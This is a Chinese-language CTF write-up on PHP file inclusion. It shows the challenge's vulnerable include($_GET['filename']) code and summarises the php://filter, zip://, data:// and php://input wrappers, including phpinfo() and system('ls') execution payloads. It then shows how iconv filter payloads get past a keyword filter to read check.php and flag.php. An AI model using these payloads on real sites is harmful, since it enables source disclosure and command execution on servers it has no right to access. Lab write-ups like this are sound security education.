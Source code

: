 # 题目 file_include

[![p90PvnJ.md.png](https://s1.ax1x.com/2023/05/08/p90PvnJ.md.png)](https://imgse.com/i/p90PvnJ)

+ 打开网页，是PHP代码审计，有关文件包含函数的运用，代码如下：

  ```php
  <?php
  highlight_file(__FILE__);
      include("./check.php");
      if(isset($_GET['filename'])){
          $filename  = $_GET['filename'];
          include($filename);
      }
  ?>
  ```

## 代码分析

1. `include(file)`：将`file`下的PHP文件插入到当前PHP文件中（在服务器执行`file`之前），后续的代码可以直接使用它的变量，函数，类等等；
   + `require(file)`跟`include(file)`功能相同，只是当文件不存在时，`require`会报错并停止运行，`include`会发出警告继续执行代码；

## 解题过程

+ 本题提供文件包含问题的一个思路：利用php://filter伪协议查看源文件；

  `include(file)`，`file`参数通常由GET或POST请求得到，当请求为php://filter协议包装时，可以绕过一些文件检查；

### php伪协议总结

####  php://filter伪协议

+ php://filter是php中独有的一种协议，它是一种过滤器，可以作为一个中间流来过滤其他的数据流。通常使用该协议来读取或者写入部分数据，且在读取和写入之前对数据进行一些过滤，例如base64编码处理，rot13处理等；

+ filter的一般语法：

  ```
  php://filter/过滤器/resource=待过滤的数据流
  ```

  - 过滤器可以设置多个，按顺序依次对数据流进行过滤；过滤器大致可分为四类：字符串过滤器、转换过滤器、压缩过滤器、加密过滤器；
  - 过滤器中的可以是`read=`（读文件）或`write=`（写文件），若没有指明则默认是读；`read`有可能被当做关键词而屏蔽；

1. 字符串过滤

   举例语法：

   ```
   php://filter/read=string.rot13/resource=data://text/plain,abcdefg       #rot13编码
   php://filter/read=string.toupper/resource=data://text/plain,abcdefg     #大写转化，小写转化使用tolower
   php://filter/read=string.strip_tags/resource=data://text/plain,<a>s</a> #去除PHP，HTML标签
   ```

2. 转化过滤器

   举例语法：

   ```
   php://filter/read=convert.base64-encode/resource=data://text/plain,m1sn0w           #base64编码
   php://filter/read=convert.quoted-printable-encode/resource=data://text/plain,m1sn0w #将不能用ASCII表示的字符转化为两位十六进制数(8bit)
   php://filter/zlib.deflate/resource=flag.php                                         #将数据流进行压缩
   php://filter/zlib.deflate|zlib.inflate/resource=flag.php                            #将数据流进行解压缩
   #压缩解压缩过滤器也可以用：bzip2.compress和bzip2.decompress
   php://filter/read=convert.iconv.utf-8.utf-16/resource=data://text/plain,m1sn0w      #将输入的字符串编码转化为输出的字符串编码
   #格式为：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>
   ```

   convert.iconv支持的编码格式如下：

   ```
   UCS-4*
   UCS-4BE
   UCS-4LE*
   UCS-2
   UCS-2BE
   UCS-2LE
   UTF-32*
   UTF-32BE*
   UTF-32LE*
   UTF-16*
   UTF-16BE*
   UTF-16LE*
   UTF-7
   UTF7-IMAP
   UTF-8*
   ASCII*
   EUC-JP*
   SJIS*
   eucJP-win*
   SJIS-win*
   ```

#### zip://, bzip2://, zlib://协议

+ zip://， bzip2://，zlib://均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg，png，gif，xxx等等；

+ 举例语法：

  ```
  zip://\var\WWW\phpinfo.jpg#phpinfo.txt #压缩phpinfo.txt文件为phpinfo.zip,重命名压缩包为phpinfo.jpg，再上传
  compress.bzip2://\var\WWW\phpinfo.bz2  #压缩phpinfo.txt文件为phpinfo.bz2并上传
  compress.zlib://\var\WWW\phpinfo.gz    #压缩phpinfo.txt文件为phpinfo.gz并上传
  #它们均支持将压缩包修改为任意的后缀名
  ```

#### data://协议

+ data://可以封装数据，用来传递数据，传递时会被认为是一个文件，可以被`file_get_content()`正确解析；

+ 举例语法：

  ```
  data://text/plain,<?php phpinfo();?> #不做处理，直接传递字符串
  data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+ #将字符串进行base64解码再传递字符串
  ```

#### php://input协议

+ php://input可以访问请求的原始数据的只读流，用于执行PHP代码；

+ 举例语法：

  ```
  POST /?file=php://input HTTP/1.1
  ...
  <?php system("ls");?>
  ```

  注意需要采用POST方式提交，在表单`enctype="multipart/form-data"`时，执行无效；

### 构造payload

回到本题中，我们可以先尝试使用php://filter读取check.php的文件

payload如下：

```
php://fil1ter/convert.base64-encode/resource=index.php
```

[![p90E8Gq.md.png](https://s1.ax1x.com/2023/05/08/p90E8Gq.md.png)](https://imgse.com/i/p90E8Gq)

 结果被屏蔽了，可能是屏蔽了base64关键字；

对比payload：

```
?filename=php://fil1ter/con1vert.b1ase64-e1ncode/resource=check.php
?filename=php://fil1ter/con1vert.base64-e1ncode/resource=check.php
```

发现base64确实是被过滤了，我们再尝试使用其他的过滤器；

```
?filename=php://filter/string.rot13/resource=check.php
?filename=php://filter/convert.iconv.utf-8.utf-16/resource=check .php
```

发现rot13被屏蔽，iconv有多种编码格式，需要进一步尝试是否被屏蔽，使用BurpSuite Intruder测试；

#### [BurpSuite爆破的四种方式讲解](https://blog.csdn.net/weixin_43487849/article/details/116084562)

Attack方式选择Cluster bomb，如下：

[![p90KZkD.md.png](https://s1.ax1x.com/2023/05/08/p90KZkD.md.png)](https://imgse.com/i/p90KZkD)

通过观察Response长度即可大致判断是否测试成功，有很多种编码都能正确返回check.php的内容

[![p90Kvut.md.png](https://s1.ax1x.com/2023/05/08/p90Kvut.md.png)](https://imgse.com/i/p90Kvut)

一个可能的payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=check.php
```

观察check.php，确实是过滤了`/base be encode print zlib quoted write rot13 string`这些关键词；

并没有给出flag的信息，我们尝试访问`flag.php`也许能得到`flag`，payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=flag.php
```

[![p90MuUU.md.png](https://s1.ax1x.com/2023/05/08/p90MuUU.md.png)](https://imgse.com/i/p90MuUU)

成功得到flag。
